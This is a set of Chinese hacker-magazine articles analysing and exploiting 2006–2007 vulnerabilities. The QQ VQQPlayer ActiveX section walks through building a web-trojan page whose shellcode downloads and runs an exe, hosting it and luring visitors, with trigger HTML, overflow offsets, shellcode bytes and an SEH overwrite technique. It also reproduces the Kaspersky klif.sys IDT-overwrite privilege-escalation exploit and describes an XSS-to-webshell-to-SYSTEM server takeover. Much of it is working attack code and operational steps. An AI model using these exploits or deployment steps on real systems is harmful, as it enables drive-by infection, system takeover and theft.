在本文的动作制作过程中，映射出了点问题，但是作动画前是成功进了主机的，映射只是去看看他的桌面罢了。其实自 IP 反弹过来，我们就已经控制整个主机了。

图18

##### 总结

这次检测官方主要是要告诉我们的网站管理员朋友，不要以为一个跨站是微不足道的，一旦有了时机，一个跨站也可以拿下一台服务器。回顾此次检测，发现 F2Blog 官方犯了两个很大的错误：一是没有对程序代码进行安全处理，让我们有机会写入 PHP 木马；二是没有正确地限制 Web 用户访问权限，让我们有可能查看 my.ini 文件，从而拿下整个服务器。总结一下整个检测的流程：跨站 -> 网站后台 -> PHP 一句话木马 -> 获取 my.ini 文件 -> System 权限。如此一来，就成功实现了“跨”进官方服务器的结果。

#### QQ 0Day

WTF：QQ 对大家来说是再熟悉不过的东西了，它几乎就是网络上的数字名片。虽然过去也爆出过 QQ 的漏洞，但危害性大多不大。而最近，QQ 却爆出了一个高危漏洞，该漏洞通过 IE 发生作用，黑客可以利用此漏洞远程控制用户机器。尽管腾讯已经发布了补丁，并通过系统消息进行了提示，但由于 QQ 存在多种“绿色版”“去广告版”等，仍有众多用户没有及时打好补丁。此漏洞存在于目前 QQ 所有版本的 ActiveX Control 相关模块中，只需要用户安装过 QQ，甚至不需要其登录，就可以被成功利用。目前某著名 IT 门户网站的笔记本频道就已经被黑客植入病毒，用户浏览后就会中毒。为此，我们特别组织了这篇文章：一是让大家知道此漏洞是如何被利用的，以做好防范工作；二是通过对此漏洞的全面分析，让大家了解漏洞是如何产生的，从而提高自己的分析水平。所谓授之以鱼不如授之以渔，也许不远的将来，我们的读者当中，也会有人会发现 0Day 呢！你说呢？

- 适合读者：溢出爱好者、木马爱好者
- 前置知识：汇编语言

过去的一年真是安全领域的多事之秋，流氓软件大战如火如荼，MS06-040 的蠕虫肆虐中国，Windows 的 0Day……

最近，一个 QQ 的 ActiveX 控件 0Day 漏洞的 POC（Proof of Concept）又被公布，这个漏洞几乎和去年微软的 MS06-055 的 0Day 同等级别（祖国人民谁不用 QQ 啊？），立刻引起了国内各个安全组织的高度重视。而腾讯安全中心对这个漏洞也做出了应急响应，全面升级了相应的漏洞文件，算是为黑客与安全工作者之间没有硝烟的战争日志画上了一个仍然意犹未尽的句号。

而本文将结合被公布的 POC，和大家一起探究一下这个 0Day。希望在和我一起分析实践的过程中，大家能够有所收获，如有不足之处，请不吝指出。

一是在注册表中搜索字串：“AC3A36A8-9BFF-410A-A33D-2279FFEB69D2”，查看漏洞控件在 QQ 安装时是否被注册。如果注册表中没有搜到的话，可能是你的 QQ 安装时限制了某些功能，不支持 QZone 等媒体，请重新下载并安装完全功能版的 QQ，否则实验不会成功。

二是检查 QQ 安装目录下的 VQQPlayer.ocx 文件，如果是 132KB（135,168 字节）的话，就是一个存在漏洞的文件，可直接进行后续实验。如果你在 2006 年 12 月 29 日之后有过升级的话，则该文件会被更新成大小为 152KB（155,648 字节）的新文件，这时就需要在随本文提供的资料中找到原先有漏洞的文件，并替换机器中相应文件，人工制作一个有漏洞的实验环境。

## 0Day初体验之网马DIY

一开始听说 QQ 爆出 0Day 的时候着实激动了一番，看了 POC 之后才知道爆出的不是客户端那只企鹅身上的洞，要不然的话闹出几只害人的蠕虫来，几亿网民就真的处于极高的网络风险之中了。

这个漏洞发生在 QQ 安装目录下的 VQQPlayer.ocx 中。在开始实验前，大家应该先检查以下两件事情。

QQ 在安装时会注册一系列 ActiveX 控件用于 QZone Media 等操作，如果在 HTML 中调用其中有漏洞的方法时传入精心构造的长字符串参数，就可以制造缓冲溢出。axis 公布的 POC 就是在 HTML 中调用了 LaunchP2PShare 方法，从而执行任意代码的。这个 Exploit 的 ShellCode（payload）用于下载指定 URL 的文件到 C:\WINDOWS\system32 中保存为“*.exe”并执行之。截至目前，这个 Exploit 在网上已经非常流行，被用于挂载鸽子等各种木马。下面我们就 Step by Step 地看一下这个 0Day 网马的配置和使用过程。

（本部分内容在实验室环境下描述，供学习研究目的，另作它用后果自负。）

- 1) 生成攻击网页

在随本文提供的资料中，我给出了 axis 发布的这个攻击网页的生成代码，编译后运行就能得到攻击网页。生成器需要两个参数：第一个参数指明木马服务器的 URL，第二个参数则是网页文件名。

图1 网页攻击代码生成

这里生成了一个名为 exploit.html 的攻击网页。

- 2) 配置木马服务器

在这里我们用本机搭建一个简易的 Web 服务器充当木马服务器。可使用 Apache，安装完成后修改配置（如绑定端口为 80），运行 Apache。把 exploit.html 放到 Apache\htdocs 下，再放入可执行文件并改名为 troy.exe（建议在安全测试环境中操作）。

- 3) 攻击测试

点击 exploit.html（或在 IE 地址栏输入 http://127.0.0.1/exploit.html），可触发前一步放在 htdocs 下的 troy.exe 执行。文中描述为：浏览网页后漏洞被利用并执行 ShellCode，下载并运行木马。

图2 QQ 0Day 漏洞利用示意图

如果在网上申请空间，上传配置好的程序，再将最终 URL 放入 Exploit 生成器生成攻击代码并发布，诱导访问即可完成攻击链。

如果你成功完成以上步骤，应该对这个 0Day 的危害有所了解。其本质是利用用户点击链接的心理。防范上应及时更新软件、不要点击可疑链接、升级杀毒软件并保持安全意识。

##### 实验准备

如果只是满足于“用别人的工具”并不利于提升。应在漏洞公开后分析原因，尝试自行组织 Exploit，在实战中发现并解决问题，提升逆向与调试能力，打下扎实技术基础。

axis 在发布漏洞时给出了一些分析。后文结合其信息回顾学习过程：先将 VQQPlayer.ocx 放入 IDA 观察，再依据 POC 中的汇编与机器码定位相关函数。

文中通过在 UltraEdit 中搜索特征字节（如 81EC60060000 / SUB ESP,660）定位到文件偏移 0x00005950，如图3所示。

图3 文件偏移

文件偏移地址（File Offset Address），而最终动态调试时，我们在内存中要找的这个函数的地址则是相对虚拟地址 RVA（Relative Virtual Address）。不管是 Cracker 还是 Hacker，我们总免不了要跟 PE 结构和内存打交道，所以如果不清楚三者之间换算方法的，可以去看一下有关加密与解密的相关文章。当然，懂得换算原理就行，不一定总要用笔和纸来算，用 LordPE 的 FLC 功能就能自动换算出三者之间的关系。如图4所示，我们得到 VA 是 1000595C，之后就可以径直去 IDA 中相应的位置找这个漏洞函数了。

```asm
.text:100059B4  mov [ebp+var_4], edi
.text:100059B7  call ?AfxGetModuleState...
.text:100059C8  push edi ; hModule
.text:100059CA  call sub_100076B8
...
.text:100059D9  call strcat
...
.text:100059E8  call ds:PathFileExistsA
.text:100059F0  jnz short loc_10005A01
```

图4 获取漏洞文件的 VA

IDA 反汇编出的关键代码如下：

```asm
int __stdcall badfunction(char *, int)
.text:10005959 badfunction proc near
.text:10005959 CommandLine = byte ptr -660h
.text:10005959 var_260    = byte ptr -260h
.text:10005959 pszPath    = byte ptr -15Ch
...
.text:1000599D push eax ; void *
.text:1000599E call memset
...
.text:100059AC call memset
.text:100059B1 add esp, 18h
```

在随文的附件中，我和存在漏洞的文件一起给出了反汇编后的 idb 文件，该函数被标注为“badfunction”，可以很容易找到。如果你有兴趣可以仔细地研究一下这个函数，锻炼一下逆向技术。与溢出相关的是：这个函数首先获得 QQ 的安装路径并按照字符串存于栈中，然后在 `.text:100059D9` 处调用 Strcat 函数，把传进来的第一个参数所指的字符串连接到路径后面，这个字符串操作过程没有经过界限检查，可以造成一个典型的栈溢出。

如果要进一步分析，就需要动态调试这个函数。由于这个函数是在 HTML 中动态加载的，而且加载的基址每次都不一样，所以要断到这个函数还要小动一点脑筋的。我用的是自己的土办法，虽然麻烦而且土，但是在调试 IE 类漏洞的时候屡试不爽。

首先，我们这里仍照 POC 用一个简单的 HTML 来触发异常，用于触发漏洞的测试网页代码如下所示。

```html
<html>
<head>
<script>
function doTest()
{
    test.LaunchP2PShare('QQQQ ... QQQQ', 1000);
}
<!-- 多于352个ASCII字符 -->
</script>
</head>
<OBJECT ID="test" CLASSID="CLSID:{AC3A36A8-9BFF-410A-A33D-2279FFEB69D2}"></OBJECT>
<script>javascript:doTest();</script>
</html>
&&&&&&&&&&&&&&&&&&
```

为什么一定要多于 352 个 ASCII 字符呢？我们后面再说！启动 IE，用 OllyDbg 的 Attach 加载 IE 进程，运行。点击 IE 的“文件->打开->浏览”，选择用于触发漏洞的网页，这时 IE 会提示是否允许 ActiveX 控件的加载，如图5所示。

图5 ActiveX加载

这时候先不要选择允许加载，回到 OllyDbg 调试界面，选择“options->debugging options->events->Break on new module(dll)”，如图6所示。

图6 修改 OllyDbg 的调试配置选项

现在返回 IE 界面，选择允许加载 ActiveX 并确定。由于加载了新的 DLL，OllyDbg 的断点会被立刻触发，并在 Executable Module 窗口中用红色显示新加载进来的可执行模块，这时候一下一下地按 F9，直到看见 VQQPlayer.ocx 被加载进来，如图7所示。

图7 VQQPlayer.ocx 模块加载过程

这时双击这个模块，会转到该模块代码区的开始部分。你也可以按 Alt+M 查看一下这个模块在虚拟内存中的映射。比如我这次调试加载的实际情况如图8所示。

图8 动态加载时的文件内存映射情况

还记得前边算文件偏移和 RVA 吗？这里代码段的基址是 0x02A41000，偏移是 0x595C，换算出来的 RVA 应该是 0x02A4595C。在反汇编窗口直接 Ctrl+G 去这个地址看看，呵呵，找到我们要调试的函数了吧？如图9所示。

图9 运行态的漏洞函数

现在再到 OllyDbg 的调试配置选项中，去掉加载 DLL 中断的选项，在需要调试的漏洞函数上下断点。

##### 传统的溢出

经过上面的一番努力，我们现在已经可以动态调试这个漏洞函数了，单步跟踪几遍就很清楚了。在我的调试环境里，Strcat 函数的起始地址是 0x0012DBB4，EBP 的位置在 0x0012DD10，后面紧接着是返回地址存放的位置 0x0012DD14，返回地址和字符串起止之间的空间为 `space=0x0012DD14-0x0012DBB4=0x160=352byte`。现在知道为什么前边说要触发漏洞需要 352 个以上的 ASCII 字符了吧？这部分空间由 QQ 的路径和 HTML 里调用方法时传入的字符串相连构成。

打个比方，我的 QQ 的路径是“C:\Program Files\QQ2006\”，超过 8 个字节的目录名会被强行截断，所以最后内存中的目录实际上是“C:\PROGRA~1\QQ2006\”，总共 19 个字节，所以第 `352-19=333` 个字节的填充物会覆盖函数的返回地址。

好了，分析到这里，可以稍微修改一下我们的漏洞触发代码了，比如把第 333 个字节的字符改成 A 之类，在调试器里证明我们的分析的正确性。怎么样，准得很准吧？

这是一个典型的栈溢出，在进程空间里搜索 jump esp 的指令地址，把它填在淹没返回地址的地方——注意根据不同机器 QQ 安装路径的不同，这个偏移有可能会不一样，应该在调试时根据实际情况自己计算——后面再跟上 ShellCode 的话，一个典型的栈溢出就完成了。

例如我的偏移是 333 字节，跳转地址使用的是 77D99323，ShellCode 是我自己用于测试漏洞的一段最简单的代码，用于弹出一个 messageBox，在标题和按钮上显示 failwest，具体代码如下所示。

```asm
&&&&&&&&&&&&&&&&&&&&&&
sub sp,0x440
xor ebx,ebx
push ebx // cut string
push 0x74736577
push 0x6C696166 // push failwest
mov eax,esp // load address of failwest
push ebx
push eax
push eax
push ebx
mov eax,0x77D504EA // address should be reset in different os
call eax // call MessageboxA
push 0
mov eax,0x7C81CDDA
call eax // call exit(0)
&&&&&&&&&&&&&&&&&&&&&&
```

编译后它只有 40 个字节，其机器码如下所示。

```c
&&&&&&&&&&&&&&&&&&&&&&&&&&
"\x6A\xBE\x04\x33\xDB\x53\x68\x77\x65\x73"
"\x69\x6C\x8B\xC4\x53\x50\x50\x53\xB8"
"\xEA\x04\xD5\x77"
// address of MessageboxA in XP sp2, user32.dll
"\xFF\xD0\x6A\x00\xB8"
"\xDA\xCD\x81\x7C"
// address of exit() in XP sp2, kernel32.dll
"\xFF\xD0"
&&&&&&&&&&&&&&&&&&&&&&&&&&
```

现在修改我们的漏洞触发网页，用 UltraEdit 或者 HexWorkshop 之类的软件按照十六进制的形式进行编辑。在计算好的偏移位置上填写你在自己机器上搜出的跳转地址，修改 ShellCode 引用的两个函数入口地址，将最终的 ShellCode 机器码按照十六进制的形式添加在跳转地址之后。注意这里应该空出 8 个字节填 0x90，因为最后的返回是 ret 8，ESP 在返回地址后 8 个字节的地方，当然我习惯多写几个 0x90 也没什么问题。

关于以上步骤如果有疑问，请参看我在 2006 年 10 月《黑客防线》上发表的文章《深入浅出 MS06-040》，那里有关于这些步骤的非常详细的说明。

所有这些都做完了之后，赶快点一下我们精心制作的网页吧，看看有没有弹出我们可爱的小框框！如图10所示。

##### 异常处理的利用

如果你克服重重困难完成了上边的所有分析，那么恭喜你，在栈溢出方面你已经入门了。

那么恭喜你，在栈溢出方面你已经入门了，而且估计敏锐的你也已经开始明白 axis 在 POC 中给出的栈溢出局限性的说明了。

首先，由于每台机器 QQ 的路径不同，要想准确淹没返回地址有一定困难。若用 `nnnnnnnnnnnnnnnnnnssssssssssssnnnnnnjjjjjjjjjjjjjjjjjjjjjjj` 的形式来组织 payload，由于跳转地址要四个字节，考虑到地址的对齐，这样成功的机会只有四分之一（其实 QQ 目录名只是有限的几种，并不是完全随机的，所以实际成功的概率应该大于四分之一）。

其次，这个函数默认接受的是 ASCII 字符，如果 16 进制码为一些特殊字符，如 0xED、0x1E 等时，会被转译成 0x3F（问号），从而破坏 ShellCode。

综上可知，传统的栈溢出的限制还是比较大的。为了给出一个通用性更强的 Exploit，axis 在 POC 中给出了一种结合堆溢出淹没 SEH 结构的办法，这也是颇为流行的一种组织 payload 的方式。下面简要地介绍一下 SEH 链和 Windows 的异常处理机制，如图11所示。

SEH 是“Structured Exception Handling”的缩写，也就是结构化异常处理。在 Windows 中，每一个线程开始时都会在栈帧中建立一个自己的 SEH 结构体。每一个 SEH 记录都是八个字节，前四个字节是一个指向下一个 SEH 结构体的指针，用于把栈中的 SEH 组织成链表；后四个字节指向异常处理函数的入口地址。

当异常发生时（如 EIP 跑飞），Windows 会进入栈帧的 SEH 指定的代码进行异常处理。由于这个结构体也在栈中，如果我们在淹过 EIP 之后再多淹一段，能够覆盖异常处理函数的地址，那么在函数返回时，EIP 会跑飞，从而触发异常，在 Windows 转入异常处理函数时，终将把控制权交回到我们的手里。

基于这种思想，我们再重新调试一下。在 OllyDbg 的 view 选项下是可以看到 SEH 链表的。我们的例子中最近的 SEH 位于 0x0012DD90 开始的八个字节，…………节，距离返回地址（EIP）0x0012DD14 的距离为 distance=0x0012DD90-0x0012DD14=0x7C=124 bytes，并不是很远。

现在我们不再计算返回地址的偏移量，随便拿个 ASCII 字符去淹没返回地址（只要是个非法地址能产生异常就行），把 ShellCode 放在堆区，拿一个四个字节都一样的堆区地址 0x0C0C0C0C（axis 的做法）去淹没 SEH，就可以解决前边栈溢出的地址字节错位问题了。

仿照 POC 中的结构，把我们的 ShellCode 的机器码抄入 POC 中的 ShellCode 的相应位置，就得到了一个更加稳定和通用的溢出测试网页（在随文资料中已给出）。注意，POC 中的 ShellCode 机器码是按照 Unicode 字符读入的，而不是 ASCII 字符，所以按双字节抄入的时候，应当在字内颠倒顺序。例如本来是“\x66\x81\xEC\x40……”，则要抄成“%u8166%u40EC……”。

##### 结束语

通过这样一个分析，相信你对这个 0Day 已经有了一定深度的认识了。虽然这是一个已经公布了的 0Day，也有了相应的补丁，但在我的测试过程中，仍然是满地的漏洞主机，相信在相当长的时间内还是有很大危害的。另外，这个漏洞不止适用于 IE，基于 IE 内核的 Maxthon 等浏览器也会中招。如果你的 QQ 还没有打过补丁，记得及时到腾讯网站进行升级，或者利用我随文提供的资料中的补丁文件覆盖原文件即可。

从学习技术的角度来讲，这个 0Day 的价值在于对它的调试和分析，而不是用来害人。人们对 0Day 总是神往的，只有修炼到一定程度才有发现它的能力，当然，真的要挖出个 0Day 来，还是要靠点运气的。

- 适合读者：溢出爱好者，漏洞爱好者
- 前置知识：汇编语言基础，缓冲区溢出原理

#### 致命的畸形参数漏洞

#### Kaspersky Labs Anti-Virus 本地权限提升漏洞分析与利用


文／图 张东辉 袁野

卡巴斯基是非常流行的杀毒软件，每周、每天、甚至每时都在更新，但是最近爆出的本地权限提升漏洞到目前为止却还没有提供补丁，大家都补也补不了啊！其实这个漏洞也不算最新了，2007 年 1 月 15 日公布的漏洞，我写这份分析报告是 2 月 5 日，再过 10 天就整整一个月了。如果浮躁的人随便写点东西，一个月这么长的时间，恐怕早就人心惶恐了。

当然，真正的智者不会关心现在有没有补丁出来，而是会寻根究底，打破砂锅查到底，看看卡巴斯基到底是哪个模块、哪条程序出现了问题。对逆向的同行而言，找到真正出问题的那条汇编指令或者机器代码才是关键。对入门级的朋友来说，深刻理解漏洞的原理才是进步的阶梯。因此，本文将对该漏洞的各个方面进行详细的分析。

网上对这个漏洞的说明已经不少了，随便百度、Google 一个“卡巴斯基漏洞”，查出结果的前几页都是这个漏洞，描述都是一样的，如下所示。

> Kaspersky Labs Anti-Virus 本地权限提升漏洞：受影响系统——Kaspersky Labs Kaspersky Antivirus 6.0；描述——Kaspersky Antivirus 在处理畸形请求参数时存在漏洞，本地攻击者可能利用此漏洞以系统权限执行任意指令，从而完全控制系统。

看完这个描述后，请大家记住其中的关键字“畸形参数”，我们要看到底是什么样的畸形参数能使卡巴斯基崩溃，这里先给大家留下一个悬念，不用着急，后面会慢慢解释，事实将浮出水面。

##### 漏洞意义——提权

大家知道，Windows NT/2000 为实现其可靠性，严格将系统划分为内核模式与用户模式，在 i386 系统中分别对应 CPU 的 Ring0 与 Ring3 级别。Ring0 级别下，可以执行特权级指令，对任何 I/O 设备都有访问权。要实现从用户态进入核心态，即从 Ring3 进入 Ring0，必须借助 CPU 的某种门机制，如中断门/陷阱门、调用门等，如图 1 所示。


而 Windows NT/2000 提供用户态执行系统服务（Ring0 例程）的此类机制，即 System Service 的 int 2Eh 中断服务等，它会进行严格的参数检查，只能严格地执行 Windows NT/2000 提供的服务。因此，如果想执行用户提供的 Ring0 代码（指运行在 Ring0 权限的代码），常规方法似乎只有编写设备驱动程序。

Klif.sys 是卡巴斯基的内核驱动程序，同时也是上面提到的设备驱动程序。我们上面能够从 Ring3 进到 Ring0，就是利用了这个驱动程序的漏洞。另外，还有很多提权的技术，例如使用调用门（CallGate）方式，即在系统中构造一个指向我们的代码的调用门，实现 Ring0 代码。这种方式可以通过以下步骤实现：

- 1. 以写权限打开物理内存对象。
- 2. 取得系统 GDT 地址，并转换成物理地址。
- 3. 构造一个调用门。
- 4. 寻找 GDT 中空闲的位置，将 CallGate 植入。
- 5. Call 植入的调用门。

其中，GDT（Global Descriptor Table）位于内核区域，一般用户态的程序是不可能对这段内存区域有直接访问权的。幸运的是，Windows NT/2000 提供了一个叫 PhysicalMemory 的 Section 内核对象，位于“\Device”路径下。顾名思义，通过这个 Section 对象可以对物理内存进行操作。两种方式对比来说，前者较难，后者相对容易实现，而且获得 GDT 地址的 i386 指令 SGDT 并不是特权级指令，普通 Ring3 程序均可执行。

##### 漏洞利用——完全控制

虽然这个漏洞只是一个本地提权的漏洞，似乎远程利用、远程攻击用不到。其实不然，现在的病毒已经不再单纯地利用网络传播和攻击了。CIH 病毒的厉害之处，就在于它可以把自己的本体拆散塞到被感染的文件中，因此受感染的文件大小不会有所变化，杀毒软件也不易察觉。最后一个版本的 CIH 病毒除了每个月 26 日发作、格式化硬盘之外，有时还会破坏主板 BIOS 内的资料，让你根本无法开机。

我们可以设想这样一个场景：当我们利用这个漏洞的程序感染了 exe 文件，或者通过电子邮件、U 盘、网络传播出去，到目标机器上，被用户点击后执行。如果你足够狠，也可以实现格式化硬盘等 I/O 操作，这些操作本来只有管理员可以做，而且运行在 Ring0 级别，而我们可以通过这个漏洞直接从 Ring3 提权到 Ring0。

如果大家足够聪明，还可以在目标机器上安装 Rootkit。Rootkit 并不只是用作获得系统 Root 访问权限的工具，更常用于隐藏自己的踪迹并保留权限。很多时候删除一个 exe 或 DLL 文件会失败，系统提示程序正在执行，任务管理器里却看不到进程，这往往意味着被安装了 Rootkit。该类程序一旦安装且未被发现，攻击者就可能对系统进行完全控制。

##### 漏洞分析——mov [edx+8], ecx？

我们应该从哪个角度出发来分析这个漏洞呢？令人兴奋的是，这个漏洞是有 POC 的，而且还公布了源代码（http://mad.segfault.kz/kav6-expl.c）。看完 POC 源代码，感受是：程序精简、抓住要害；流程看似奇怪却有效；结构体运用漂亮，适用于 Windows XP 和 2000。总之，虽然是一段小程序，但给人以美的感受，分析这样的程序可谓一种享受。

程序主要做了下面二件事：

- 1）检测操作系统版本是否是 Windows XP/2000

```c
OSVERSIONINFOEX os;
os.dwOSVersionInfoSize = sizeof(OSVERSIONINFOEX);
GetVersionEx((LPOSVERSIONINFO)&os);
if (os.dwPlatformId != VER_PLATFORM_WIN32_NT ||
    os.dwMajorVersion != 5 ||
    os.dwMinorVersion > 1)
{
    printf("This OS version unsupported\n");
    return;
}
```


上面这段程序用来判断本地操作系统是否支持溢出程序，而下面这张表可以帮助大家快速理解这段程序。

## 表1 微软操作系统一览表

|  | Windows 95 | Windows 98 | Windows Me | Windows NT4.0 | Windows 2000 | Windows XP |
|---|---:|---:|---:|---:|---:|---:|
| PlatformID | 1 | 1 | 1 | 2 | 2 | 2 |
| 主要版本 | 4 | 4 | 4 | 4 | 5 | 5 |
| 次要版本 | 0 | 10 | 90 | 0 | 0 | 1 |

> 注：PlatformID 中，VER_PLATFORM_WIN32_NT 的宏定义是 2；VER_PLATFORM_WIN32_WINDOWS 的宏定义是 1。

事实上，程序的作者是想检测当前的操作系统是否是 Windows 2000 或 Windows XP，如果不是，那么就提示“This OS version unsupported”。

- 2）检测是否安装卡巴斯基

```asm
__asm {
  cmp os.dwMinorVersion, 0
  jnz short $+13
  mov eax, 0F8h   ; Windows 2000
  jmp short $+7
  mov eax, 11Ch   ; Windows XP
  int 2Eh
  cmp eax, 0Ch
  setz al
  mov IsKAVinstalled, al
}
```

通常我们检测一个软件是否安装了，是查看系统注册表里有没有该软件的注册项，而作者却通过一段汇编码，以系统调用（int 2Eh）的方式实现了，这未免有点尴尬！其实这并不奇怪，熟悉卡巴斯基的朋友应该知道，卡巴斯基安装运行后，增加了 13 处系统调用（system call）。我们可以使用 SDTRestore（http://www.security.org.sg/code/sdtrestore.html）工具来查看一下系统增加了哪些调用，如图 2 所示。

在 Windows XP 中增加的是 0x11C～0x128 号调用，而在 Windows 2000 中增加的是 0xF8～0x104 号调用。刚好上面的汇编程序就是调了卡巴斯基增加的第一个调用。通常系统调用都是在调用前将调用号填入 EAX 寄存器中，然后启动系统调用中断 int 2Eh，最后调用结束后，系统服务程序会把返回结果再放到 EAX 寄存器中。这里可以看到作者将返回的结果 EAX 与 0Ch 进行比较，如果相等的话，就把 IsKAVInstalled 变量置为 1，也就是说安装了卡巴斯基。

为什么要和 0Ch 进行比较呢？这需要我们好好研究一下卡巴斯基是如何处理这 13 个调用的。我们知道，klif.sys 是卡巴斯基的内核驱动文件，Windows XP 下用 IDA 分析后，发现 eax=11Ch 的 int 2Eh 系统调用的处理程序是这样的：

```asm
text:00028AC0 sub_28AC0 proc near
text:00028AC0   mov eax, 0Ch
text:00028AC5   retn
text:00028AC5 sub_28AC0 endp
```

很明显，这个系统调用的返回值是 0Ch，所以要和 0Ch 比较。

- 3）利用卡巴斯基的系统调用漏洞改写 0DAh 中断服务入口地址为 ShellCode 地址

```c
Param1.SwitchIndex = 3;
// Index of jmp in case of switch()
Param1.Unknown = 0xFF0002;
__asm {
    pusha
    sidt    f1tr
    mov     eax, dword ptr [Idtr+2]
    add     eax, 0DAh * 8
    mov     Param2, eax
    // Write lower DWORD idtEntry
    mov     ecx, offset Shellcode
    and     ecx, 0000FFFFh
    or      ecx, 00080000h
    mov     Param1.Value, ecx
    // Set DWORD: [selector 0x0008 | LOWORD(Shellcode)]
    push    Param2
    lea     eax, Param1
    push    eax
    mov     edx, esp
    cmp     os.dwMinorVersion, 0
    jnz     short $+13
    mov     eax, 100h   // Windows 2000
    jmp     short $+7
    mov     eax, 124h   // Windows XP
    int     2Eh
    add     esp, 2*4

    // Write high DWORD idtEntry
    add     Param2, 4
    mov     ecx, offset Shellcode
    and     ecx, 0FFFF0000h
    or      ecx, 0000EE00h
    mov     Param1.Value, ecx
    // Set DWORD: [HIWORD(Shellcode) | gate parameters 0xEE00]
    push    Param2
    lea     eax, Param1
    push    eax
    mov     edx, esp
    cmp     os.dwMinorVersion, 0
    jnz     short $+13
    mov     eax, 100h   // Windows 2000
    jmp     short $+7
    mov     eax, 124h   // Windows XP
    int     2Eh
    add     esp, 2*4

    // Call Gate --> (COLGATE)
    push    fs
    int     0DAh
    pop     fs
    popa
}
printf("Exploited successful\n");
```

我们先来看看卡巴斯基对 124h 号系统调用的处理程序。

```asm
.text:00028B90 sub_28B90 proc near
; DATA XREF: .data:00032D2C
arg_0 = dword ptr 4
arg_4 = dword ptr 8

mov eax, [esp+arg_4]
mov ecx, [esp+arg_0]
push eax
push ecx
call sub_1B190
retn 8
sub_28B90 endp
```

我们可以看出，这个处理程序是把两个参数直接作为 sub_1B190 函数的参数，然后调用 sub_1B190 函数。事实上，这个函数是比较复杂的，通过仔细分析，这个函数需要两个参数，也就是上面 POC 代码中的 Param1 和 Param2。Param1 是一个结构体数据，这个结构体被 POC 代码作者定义如下：

```c
typedef struct _FIRST_PARAM {
    ULONG SwitchIndex;
    ULONG Unknown;
    ULONG Value;
} FIRST_PARAM, *PFIRST_PARAM;
```

其中，SwitchIndex 控制着 sub_1B190 函数的分支，分析发现 SwitchIndex 为 3h 时程序将落入漏洞的圈套，Unknown 必须是一个 0xFF0002 到 0xFF000F 的数据，而 Value 将是真正写入内存的参数。核心的 switch 跳转语句是这样的：

> `.text:0001B1E0    jmp     ds:off_1B288[eax*4] ; switch jump`

执行这条语句时，EAX 已经被赋值为上面的 SwitchIndex，如果为 3h 的话，那么将跳到这里：

```asm
.text:0001B23F  mov  edx, [esp+4+arg_4]   ; edx=Param2
.text:0001B243  mov  ecx, [esi+8]         ; ecx=Param1.Value
.text:0001B246  push 0
; 下面是 sub_1AFC0 函数的参数
.text:0001B248  mov  [edx+8], ecx         ; 把 ecx 写入 edx+8 所指向的内存
.text:0001B24B  mov  eax, [esi+8]
.text:0001B24E  push eax
.text:0001B24F  call sub_1AFC0
.text:0001B254  mov  edi, eax
.text:0001B256  pop  edi
.text:0001B257  pop  esi
.text:0001B258  retn 8
```

这里首先分别把 Param2 和 Param1.Value 赋值给 edx 和 ecx 寄存器，然后把 ecx 写入 edx+8 所指向的内存，即把 Param1.Value 的值（DWORD）写入 Param2+8 所指向的内存单元。难道看到这里大家还不想笑吗？哈哈，啥都不说了，举个例子吧！如果 Param2+8 是我们预先获取的某个中断在 IDTR 中的中断描述符地址，而 Param1.Value 是预先写好的 ShellCode 的地址，那么经过上面 `mov [edx+8], ecx` 这条指令后，会有什么结果呢？

这里不能高兴太早，我们还要做两件事：一是检查 sub_1AFC0 这个函数有没有涉及到 [edx+8] 这块内存地址；二是考虑到 IDTR 中存储的中断描述符信息是 4 个字，结构是这样的：

```c
typedef struct _identry {
  unsigned short OffsetLow;
  unsigned short Selector;
  unsigned char Reserved;
  unsigned char Type:4;
  unsigned char SegmentFlag:1;
  unsigned char DPL:2;
  unsigned char Present:1;
  unsigned short OffsetHigh;
} IDTENTRY, *PIDTENTRY;
```

因此，我们需要拷贝两次，也就是要利用漏洞两次才行，如图 3 所示。

- 4）执行 ShellCode

POC 作者的 ShellCode 的目的是在 C 盘根目录创建一个文件 Hello.txt，并写入“Hello from ring-0! :)”，仅仅是想证明上面程序确实有效。我在几个不同操作系统（Windows XP 和 2000）机器上都运行通过，如图 4 所示，发现不安装卡巴斯基的没有影响，文件不生成；只要安装了卡巴斯基 6.0，这个文件就生成了，说明漏洞确实已被利用！

但是这还不足以说明上面这个程序是在 Ring0 级别运行的，为此我们将上面生成 Hello.txt 文件的 ShellCode 改成下面这样的程序：


```asm
mov eax, cr0
iret
```

对应的 ShellCode 进行如下的修改：

```c
shellcode[] = "\x0F\x20\xC0\xCF";
```

其中 `mov eax, cr0` 这条指令可不是大家能随意使用的指令，它是操作系统 Ring0 级别才能使用的指令。如果在 Ring3 级别下运行会报错的，如图 5 所示。


那么上面的 cr0 是什么呢？80386 有四个 32 位的控制寄存器，分别命名为 CR0、CR1、CR2 和 CR3。CR1 被保留；CR0 包括处理器工作方式、分页管理、浮点协处理器等控制位；CR2 及 CR3 由分页管理机制使用。这样，我们在 Ring0 级别中拿到 CR0 后，存入 EAX 寄存器中，然后输出，其结果如图 6 所示，`8001003b` 就是当前控制寄存器 CR0 的值，因此可以说明确实提权成功了！


##### 总结

经过上面的分析，我们可以解开本文一开始的悬念，也就是让大家记住的关键字——“畸形参数”。我们看到了“畸形参数”果然“畸形”：一个放的是 0DAh 中断在 IDTR 中的描述符地址，一个存的是 ShellCode 的地址。通过这两个参数，我们可以以中断门的方式在本地进行提权。

另外经过验证，无论把 0DAh 换成任何一个中断，都是可以的。如果被换地址的中断是 Ring0 级别，那么 ShellCode 的级别自然也是 Ring0 级别。所以说，这个漏洞可能导致以系统权限执行任意指令，从而完全控制系统。因此，此漏洞非常危险，希望卡巴斯基能尽快出补丁！

适合读者：溢出爱好者，漏洞爱好者

前置知识：缓冲区溢出原理

## Adobe Acrobat Reader 外部命令参数解析 ODay漏洞利用

文／图 failwest


2006年12月27日，德国柏林召开的第二十三届安全峰会（23rd Chaos Communication Congress）上的演讲者Stefano Di Paola和Giorgio Fedon在他们的议题“Subverting Ajax”（Asynchronous JavaScript And XML）中进行攻击举例时，爆料出了Adobe Acrobat Reader插件在解析外部参数时允许执行JavaScript的漏洞。由于PDF文件在网上流行的广泛程度，使得这个ODay在网络上迅速流传开来，并引起了CERT、CVE等相关安全机构的高度关注。

2007年1月9日，Adobe公司在确认了漏洞之后，发布了补丁。这次计算机安全响应事件至此算是告一段落，但是由于大部分人的习惯，该补丁并不能得到及时的安全更新，所以我认为这个漏洞在国内还是有相当长的生存期的。下面我们就一起来关注一下Adobe Acrobat Reader插件中的外部参数传递的缺陷。

